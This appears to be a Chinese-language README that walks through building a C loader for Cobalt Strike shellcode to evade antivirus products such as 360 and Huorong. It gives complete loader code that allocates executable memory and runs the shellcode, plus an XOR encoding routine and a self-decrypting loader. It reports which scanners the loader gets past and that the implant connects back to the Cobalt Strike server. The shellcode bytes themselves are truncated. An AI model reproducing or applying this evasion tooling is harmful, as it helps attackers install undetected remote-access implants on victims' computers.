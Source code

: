 # 0x00 简介
原理：c语言实现的loader  
测试的杀软：360全家桶、火绒  
CS版本：Cobalt Strike 4.2  
Metasploit：暂未测试

# 0x00 结论
能过360全家桶、腾讯电脑管家  
不能过Windows Defender、火绒  

# 0x01 注意
360杀毒关闭：用户体验、程序错误、可疑文件  
360安全卫士关闭：用户体验、云安全、网址云安全  
火绒关闭：用户体验  

# 0x02 过程
Attacks->Packages->Payload Generator（选择之前创建的监听器，输出C格式）  
生成的代码如下  
```
/* length: 833 bytes */
unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60...";
```
下载并安装VS2019，安装时勾选C++和windows这2类，创建windows控制台项目  
c语言实现loader，代码如下
```
#include <windows.h>
#include <stdio.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

// shellcode
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41...";

int main() {
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
经测试，编译执行后能够成功上线

拷贝到windows server 2008下  
首次复制到虚拟机的时候，360直接给删除了  
再次复制时，没有删除，而且扫描后也没有提示病毒（怀疑它是判断为虚拟机，故行为改变）  
但使用火绒扫描后，提示病毒，如下图  
![image](./pic/0.png)

使用如下C代码，对shellcode进行异或加密（每个字节和数字1进行异或）
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;//xor key
int b = sizeof(buf);
unsigned char str[891] = { 0 };//shellcode size

int main() {
    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中，下述代码会在内存中进行异或解密并执行
```
#include <stdio.h>
#include <windows.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char buf[] = "\xfd\x49\x82\xe5\xf1\xe9\xc9\x1...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8( (volatile char *)buf + i, 1 );//xor key
    }
    
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译执行后，能成功连接到CS  
拷贝到windows server 2008 R2下  
360安全卫士、360杀毒、火绒均未提示  
扫描后也未提示，如下图  
![image](./pic/1.png)  
执行后能成功连接到CS，如下图  
![image](./pic/2.png)
